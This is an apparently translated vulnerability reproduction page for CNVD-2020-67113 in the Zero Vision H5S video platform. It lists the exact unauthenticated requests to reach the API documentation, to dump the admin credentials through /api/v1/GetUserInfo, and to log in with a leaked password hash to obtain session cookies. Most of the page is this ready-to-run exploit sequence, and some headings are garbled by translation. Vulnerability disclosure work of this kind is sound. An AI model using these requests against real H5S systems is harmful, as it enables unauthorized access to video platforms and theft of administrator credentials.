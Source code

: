 

# Zero-Sight Technology H5S Video Platform GetUserInfo Information Leakage Vulnerability CNVD-2020-67113

## Vulnerability Description

Zero Vision Technology (Shanghai) Co., Ltd. serves customers with leading video technology, and is committed to simplifying the development of IoT videos. Relying on new technologies such as HTML5 WebRTC, it realizes simplification of video playback on all platforms.
Zero Vision Technology (Shanghai) Co., Ltd. H5S CONSOLE has an unauthorized access vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zerovision Technology H5S video platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636073252475-8f3cb570-d930-46e3-b8a6-0a686773c84a.png)

API documentation can be accessed unauthorized

```php
/doc/api.html
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636074612323-f1fee2de-e43f-4842-9e03-8066f9a1b7fc.png)

Interface with user account password leak

```php
/api/v1/GetUserInfo?user=admin&session=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636073746405-1adf993c-1e08-461a-9f7f-a3ab07f969ad.png)

Password in the login interface is the account password existing in the interface, and you can directly send a request to obtain cookies.

```php
/api/v1/Login?user=admin&password=02ed400b8d9289f311fc1d68a83fdaaa
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636073812938-d82c758c-891a-40aa-9e17-037339b99765.png)

Visit the main page after the request is successful

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636073852540-6758c6d5-f945-4aec-8c53-53328c3cbc7d.png)